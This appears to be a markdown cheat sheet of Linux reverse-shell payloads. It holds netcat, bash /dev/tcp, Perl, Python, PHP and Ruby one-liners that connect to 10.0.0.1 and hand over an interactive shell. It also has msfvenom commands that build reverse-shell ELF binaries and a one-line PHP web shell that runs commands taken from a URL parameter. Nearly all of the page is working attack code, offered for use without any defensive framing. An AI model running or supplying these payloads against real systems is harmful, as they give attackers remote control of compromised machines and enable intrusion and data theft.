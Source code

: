 # Reverse Shell Cheat Sheet for Linux
## Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## MSFVenom
```bash
# x86	
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86

# x64
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64
```

## Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
# If the command below does not work
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

## Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

<?php system($_GET['cmd']);?>
```

## Ruby
```ruby
ruby -r socket -e 'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

